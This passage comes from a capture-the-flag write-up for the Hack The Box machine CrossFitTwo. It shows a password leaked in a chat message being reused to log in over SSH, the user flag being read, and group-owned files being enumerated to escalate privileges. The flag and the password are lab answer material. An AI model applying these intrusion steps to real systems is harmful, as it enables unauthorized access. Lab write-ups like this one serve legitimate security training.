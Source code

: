 ```json
{"sender_id":2,"content":"Hello David, I've added a user account for you with the password `NWBFcSe3ws4VDhTB`.","roomId":2,"_id":1854}
```

And we can see the David's password: ```NWBFcSe3ws4VDhTB```.

Let's try to use this password using SSH:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/]
└──╼ $ ssh david@crossfit.htb
The authenticity of host 'crossfit.htb (10.10.10.232)' can't be established.
ECDSA key fingerprint is SHA256:lt8/b60gRtxXniKrvO7xT0ktvC1+Hy5RBfVWMF0pSWc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'crossfit.htb,10.10.10.232' (ECDSA) to the list of known hosts.
david@crossfit.htb's password: 
OpenBSD 6.8 (GENERIC.MP) #4: Mon Jan 11 10:35:56 MST 2021

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

Not Hercules could have knock'd out his brains, for he had none.                        
		-- Shakespeare
crossfit2:david {1} whoami
david
crossfit2:david {2} ls
user.txt
crossfit2:david {3} cat user.txt
652b4016ff88d580b502ff1f43fb3ade
``` 

And finally we got the user flag ```652b4016ff88d580b502ff1f43fb3ade```.


### User 2

By running ```id``` / ```groups``` we can see that we are on ```sysadmins``` group:
```console
crossfit2:statbot {38} groups
david sysadmins
crossfit2:statbot {39} id
uid=1004(david) gid=1004(david) groups=1004(david), 1003(sysadmins)
```

Let's find files owned by our group:
```console
crossfit2:statbot {36} find / -group sysadmins -ls
...
1244170    4 drwxrwxr-x    3 root     sysadmins      512 Feb  3  2021 /opt/sysadmin
```
